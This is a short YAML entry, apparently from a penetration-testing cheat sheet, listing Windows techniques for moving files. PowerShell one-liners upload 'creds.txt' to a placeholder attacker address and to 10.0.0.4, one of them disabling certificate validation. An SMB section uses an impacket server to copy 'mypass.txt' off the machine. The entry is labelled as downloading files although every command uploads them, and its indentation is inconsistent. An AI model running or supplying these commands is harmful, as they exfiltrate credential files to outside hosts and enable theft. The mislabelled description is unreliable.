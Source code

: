 ```yaml
---
functions:
  file-transfer:
    - description: Download Files on Windows
      code: |
        +++++++++++POWERSHELL+++++++++++
     	powershell -c (New-Object System.Net.WebClient).UploadFile('http://<ip>:<port>', 'creds.txt')
  		powershell -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).UploadFile('https://10.0.0.4:8000', 'creds.txt')

  		+++++++++++SMB+++++++++++
        SERVER: impacket-smbserver "share" . -smb2support
        CLIENT: (1) net use \\192.168.119.159\share   (2)  copy "mypass.txt" \\192.168.119.159\share\
---
```

